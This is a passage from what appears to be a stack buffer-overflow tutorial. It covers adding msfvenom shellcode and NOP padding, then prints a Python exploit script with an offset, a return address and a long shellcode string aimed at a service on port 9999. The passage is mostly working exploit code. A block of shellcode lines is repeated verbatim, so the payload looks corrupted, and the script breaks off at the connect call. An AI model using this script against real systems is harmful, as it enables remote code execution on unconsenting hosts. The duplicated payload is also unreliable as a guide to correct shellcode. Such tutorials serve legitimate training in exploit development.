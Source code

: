 Copy the generated C code strings and put them into your exploit script payload variable.

#### Prepend NOPs

Encoders used in msfvenom may require additional space in memory for the payload to decode and execute so we can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

```
padding = "\x90" * 16
```

#### Exploit

Now our exploit script should be something like this

```
import socket

ip = "192.168.1.xx"
port = 9999

offset = 524
overflow = "A" * offset
retn = "\xF3\x12\x17\x31"
padding = "\x90" * 16
payload = ("\xd9\xea\xd9\x74\x24\xf4\xbb\x1d\x6d\x85\x7f\x58\x31\xc9"
"\xb1\x52\x83\xe8\xfc\x31\x58\x13\x03\x45\x7e\x67\x8a\x89"
"\x68\xe5\x75\x71\x69\x8a\xfc\x94\x58\x8a\x9b\xdd\xcb\x3a"
"\xef\xb3\xe7\xb1\xbd\x27\x73\xb7\x69\x48\x34\x72\x4c\x67"
"\xc5\x2f\xac\xe6\x45\x32\xe1\xc8\x74\xfd\xf4\x09\xb0\xe0"
"\xf5\x5b\x69\x6e\xab\x4b\x1e\x3a\x70\xe0\x6c\xaa\xf0\x15"
"\x24\xcd\xd1\x88\x3e\x94\xf1\x2b\x92\xac\xbb\x33\xf7\x89"
"\x72\xc8\xc3\x66\x85\x18\x1a\x86\x2a\x65\x92\x75\x32\xa2"
"\x15\x66\x41\xda\x65\x1b\x52\x19\x17\xc7\xd7\xb9\xbf\x8c"
"\x40\x65\x41\x40\x16\xee\x4d\x2d\x5c\xa8\x51\xb0\xb1\xc3"
"\x6e\x39\x34\x03\xe7\x79\x13\x87\xa3\xda\x3a\x9e\x09\x8c"
"\x43\xc0\xf1\x71\xe6\x8b\x1c\x65\x9b\xd6\x48\x4a\x96\xe8"
"\x88\xc4\xa1\x9b\xba\x4b\x1a\x33\xf7\x04\x84\xc4\xf8\x3e"
"\x70\x5a\x07\xc1\x81\x73\xcc\x95\xd1\xeb\xe5\x95\xb9\xeb"
"\x0a\x40\x6d\xbb\xa4\x3b\xce\x6b\x05\xec\xa6\x61\x8a\xd3"
"\xd7\x8a\x40\x7c\x7d\x71\x03\x43\x2a\x4d\x53\x2b\x29\xad"
"\x57\x7e\xa4\x4b\x3d\x6e\xe1\xc4\xaa\x17\xa8\x9e\x4b\xd7"
"\x66\xdb\x4c\x53\x85\x1c\x02\x94\xe0\x0e\xf3\x54\xbf\x6c"
"\x52\x6a\x15\x18\x38\xf9\xf2\xd8\x37\xe2\xac\x8f\x10\xd4"
"\xa4\x45\x8d\x4f\x1f\x7b\x4c\x09\x58\x3f\x8b\xea\x67\xbe"
"\x5e\x56\x4c\xd0\xa6\x57\xc8\x84\x76\x0e\x86\x72\x31\xf8"
"\x68\x2c\xeb\x57\x23\xb8\x6a\x94\xf4\xbe\x72\xf1\x82\x5e"
"\xc2\xac\xd2\x61\xeb\x38\xd3\x1a\x11\xd9\x1c\xf1\x91\xf9"
"\xfe\xd3\xef\x91\xa6\xb6\x4d\xfc\x58\x6d\x91\xf9\xda\x87"
"\x6a\xfe\xc3\xe2\x6f\xba\x43\x1f\x02\xd3\x21\x1f\xb1\xd4"
"\xa4\x45\x8d\x4f\x1f\x7b\x4c\x09\x58\x3f\x8b\xea\x67\xbe"
"\x5e\x56\x4c\xd0\xa6\x57\xc8\x84\x76\x0e\x86\x72\x31\xf8"
"\x68\x2c\xeb\x57\x23\xb8\x6a\x94\xf4\xbe\x72\xf1\x82\x5e"
"\xc2\xac\xd2\x61\xeb\x38\xd3\x1a\x11\xd9\x1c\xf1\x91\xf9"
"\xfe\xd3\xef\x91\xa6\xb6\x4d\xfc\x58\x6d\x91\xf9\xda\x87"
"\x6a\xfe\xc3\xe2\x6f\xba\x43\x1f\x02\xd3\x21\x1f\xb1\xd4"
"\x63")
postfix = ""

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
```
